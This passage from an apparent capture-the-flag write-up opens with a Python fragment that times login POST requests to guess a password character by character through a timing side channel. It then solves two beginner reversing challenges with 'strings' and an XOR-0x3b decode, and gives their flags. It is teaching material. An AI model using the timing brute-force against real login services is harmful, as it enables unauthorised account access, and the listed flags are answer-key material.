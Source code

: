 ```python
        t1 = time.time()
        r = requests.post(url, data = {'username': 'wjohnson', 'password': guess})
        t2 = time.time()
        
        if 'Incorrect' not in r.url:
          print('Found:', guess)
        total += t2 - t1
    total /= n
    print(character, total)
```

After logging into Mr. John's account, we can find the flag.

**Flag:** `wsc{99eae35043c31a481e26f94feb9ed3fe}`



### babyre0

> Something to get you started.

We're provided a challenge binary. This was a simple challenge. Doing `strings babyre0 | grep wsc` gives us the flag.

**Flag:** `wsc{juST_a_b4By_RE!}`



### babyre1

> Is FLAG encoded already? Did I forget to call encode()?

We're provided a challenge binary. We can open it up with any decompiling tool. There are two functions that seem important - main and encode. The encode function simply takes in a string parameter. It then loops through every character of the string and performs an xor with `0x3b`. We can simply retrieve the flag again by performing xor on the encoded string with `0x3b` again as the xor operation is inverse of itself. We can find the encoded flag in the .data section of the binary.

```
flag = ['L', 'H', 'X', '@',
  'b','\v', 'N', 'd',
  0x0F, 'I','\b', 'd',
 '\\','\b', 'O', 'O',
 '\n', 'U','\\', 'd',
  'O', 'S','\b', 'd',
  'S', 0x0F, 'U','\\',
  'd','\v', ']', 'd',
  'o', 's', 'r', 'h',
  0x1A, 'F']


for i in range(len(flag)):
    if not isinstance(flag[i], int):
        flag[i] = ord(flag[i])
    flag[i] ^= 0x3b
    print(chr(flag[i]), end = '')
```
